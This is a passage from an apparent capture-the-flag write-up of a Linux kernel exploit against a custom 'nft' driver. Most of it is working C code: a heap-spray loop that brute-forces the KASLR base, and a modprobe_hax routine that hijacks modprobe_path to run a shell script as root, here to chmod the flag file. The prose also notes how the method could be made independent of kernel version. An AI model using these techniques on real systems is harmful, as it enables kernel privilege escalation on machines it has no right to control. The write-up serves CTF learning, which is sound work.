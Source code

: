 It takes a short while, but finds the KASLR base in decent time, like a minute or so at most.
```c
char buf[CHUNK_SIZE];
uint64_t* longbuf = (uint64_t *)(buf);

uint64_t* fake_nft = calloc(8, 24);
void* outbuf = calloc(1, 512);
memset(buf, 0x41, CHUNK_SIZE);
add_nft(buf);
free_nft();

read_nft(0, buf);
uint64_t kbase;
// KASLR only has 9 bits of entropy. Since copy_to_user is used to copy data from NFT to user(copy_to_user never crashes) we can just scan memory for kernel base.
// Use socket buffer to fake an NFT pointer and then read nft idx 0 which is at fake pointer, and will attempt to copy text from fake pointer + 8.
for(uint64_t i = 0; i < 512; i ++){
        fake_nft[0] = 0xffffffff80000000UL + (i << 21);
        printf("%p\n", fake_nft[0]);
        spray_skbuff(fake_nft, SKBUFF_SIZE);
        read_nft(1, buf);
        hexdump(buf, CHUNK_SIZE);
        free_skbuff(outbuf, SKBUFF_SIZE);
        // Actually read data
        if(buf[0] != 0x41){
                kbase = fake_nft[0];
                break;
        }
}
```

## Finally getting the flag

After getting the kernel base, the process is simple. The kernel is compiled with symbols so it is easy via a debugger to find the symbol `modprobe_path` - it is at 0x1851400. Note that my method of finding the kernel base is not at all target dependent given it just scans the entirety of possible kernel memory until it finds an address and this part of the exploit also could be with only a bit more code. If we simply then scanned within the memory of the kernel that had already been found for the term "/sbin/modprobe" (the default modprobe_path value), the address of modprobe_path could be found without needing to even have the kernel locally. Since it was just adding a number though, I decided not to do this. Often in real kernel exploits they use techniques similar to this to make exploits independent of kernel version, although usually they just scan memory for the cred structs and overwrite those.

Arbitrary write is simple from there as I have already described, and then I use a `modprobe_hax` function I copied and adapted from FizzBuzz101. 
```c
void modprobe_hax()
{
    // Given modprobe_path is /home/user/w this will chmod /flag.txt 777
    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/user/roooot");
    system("chmod +x /home/user/roooot");
    system("echo -ne '#!/bin/sh\nchmod 777 /flag.txt\n' > /home/user/w\n");
    system("chmod +x /home/user/w");
    system("/home/user/roooot");
    return;
}
```
